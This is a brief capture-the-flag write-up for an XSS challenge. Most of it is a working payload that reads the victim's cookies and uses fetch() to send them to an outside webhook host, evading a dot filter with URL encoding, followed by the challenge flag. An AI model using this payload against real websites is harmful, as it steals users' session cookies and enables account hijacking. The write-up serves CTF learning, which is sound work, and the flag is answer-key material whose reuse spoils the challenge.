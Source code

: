 # Solution
XSS at `/test?html`

Bypass dot character with `%2f` in URL and `document['cookie']`

```
test?html=<script>s=document['cookie'];fetch(`https://webhook%2esite/887722a2-39e8-4ac2-869e-64489b72347d/${s}`)</script>
```

Flag: `ping{cH4r53tt1ng_l1k3-4-Pr0-f211c8998abab934e26d4c2164dc5388}`


Solved by: benkyou 
